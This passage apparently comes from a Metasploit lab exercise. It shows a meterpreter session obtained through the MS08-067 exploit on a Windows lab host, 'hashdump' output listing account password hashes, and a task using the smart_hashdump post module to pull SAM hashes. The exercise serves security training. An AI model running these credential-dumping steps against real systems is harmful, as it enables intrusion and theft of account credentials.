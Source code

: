 -   You can display your current background sessions with
    the `session` command


{% capture text %}
<pre>
    meterpreter > hashdump

    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HelpAssistant:1000:4f7f3b0478068dbc155ac748a60cd08d:c99241d31fe8453e3cb865be137309b4:::
    seccon:1003:e17a6020453a1523aad3b435b51404ee:d3eb09053fbe2ba3f37e6e773f763827:::
    SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:0b5c1b2296ed366332095252c3f83100:::
    user:1004:e52cac67419a9a224a3b108f3fa6cb6d:7b592e4f8178b4c75788531b2e747687:::

    meterpreter > background

    [*] Backgrounding session 1...

    msf exploit(ms08_067_netapi) > sessions -l

    Active sessions
    ===============

      Id  Type                   Information                    Connection
      --  ----                   -----------                    ----------
      1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WINDOWS  192.168.1.2:4444 -> 192.168.1.4:1054 (192.168.1.4)

    msf exploit(ms08_067_netapi) >
</pre>
{% endcapture %}
{% include cheat.html text=text %}

### Task 3

Dump the hashes out of SAM with
the `post/windows/gather/smart_hashdump` utility

-   The hash file in JtR format should show up in `loot`

{% capture text %}
<pre>
      msf exploit(ms08_067_netapi) > use post/windows/gather/smart_hashdump

      msf post(smart_hashdump) > sessions -l

      Active sessions
      ===============

        Id  Type                   Information                    Connection
        --  ----                   -----------                    ----------
        1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WINDOWS  192.168.1.2:4444 -> 192.168.1.4:1054 (192.168.1.4)

      msf post(smart_hashdump) > set SESSION 1

      SESSION => 1
